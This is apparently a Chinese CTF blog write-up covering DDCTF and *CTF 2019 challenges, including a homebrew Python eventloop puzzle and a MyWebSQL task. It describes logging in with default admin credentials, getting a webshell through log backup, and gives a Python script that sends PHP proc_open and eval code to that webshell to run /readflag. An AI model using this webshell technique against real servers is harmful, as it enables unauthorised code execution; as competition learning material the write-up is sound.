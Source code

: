 这时我们即可读取数据库的文件，数据库文件每个库一个文件夹，每个表单独存放，可能是`tablename.MYD`或`tablename.idb`，根据数据库引擎不同而异，读取后即可在其中找到flag

```
$ strings mysql.log | grep DDCTF
```



![](https://upload-images.jianshu.io/upload_images/11356161-b160b1da149694bb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

### *CTF2019

太菜了，Web就做出一道题，剩下两道一道页游一脸懵逼（虽然提示了跟Mongo有关），另一道tm是不是给错category了啊

Misc做出了一道。`homebrew eventloop`很有意思，和DDCTF2019里的是同款，garzon大佬出的，研究了一会儿想着怎么绕过`sys.stdin`的赋值就可以通过py2的input函数getflag，之后提示所有bug都是有意的，又思考那个`split(xx, '114514')`确定是有意的吗，我觉得是作者fp写多了以为Python里列表解包能`[head | tail]`。最后思考了一下变量覆盖就绕过了，第二个`homebrew eventloop`看了一眼不知道怎么RCE

之后....之后就去复习OS了....2019*CTF之旅end

#### mywebsql

![](https://upload-images.jianshu.io/upload_images/11356161-eb7d6e1cb07bb9de.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这道题要不是有人搅屎差点就拿了三血...

上来给了一个MyWebSQL的管理登录页，`admin/admin`登录后利用日志备份getshell，和phpmyadmin一样的套路

这道题最大的挑战在getshell后要利用webshell执行`/readflag`，交互的计算一个表达式，搜了搜PHP开子进程的函数，找到一个`proc_open`，写个脚本，getflag

```python
import requests

url = 'http://34.92.36.201:10080/backups/iv4n.php'

r = requests.post(url, data={
    'ck': """$d=array(
                0=>array("pipe","r"),
                1=>array("pipe","w"),
                2=>array("pipe","w")
              );
              $p=proc_open("/readflag",$d,$pipes);
              $data=fread($pipes[1],65535);
              $data=fread($pipes[1],65535);
              echo $data."\n";
              $calc=$data;
              echo $calc."\n";
              eval('$res='.$calc.";");
              echo $res."\n";
              $data=fread($pipes[1],65535);
              fwrite($pipes[0],$res);
              fclose($pipes[0]);
              var_dump(stream_get_contents($pipes[1]));
              fclose($pipes[1]);
              proc_close($p);"""
    })

print(r.text)

```
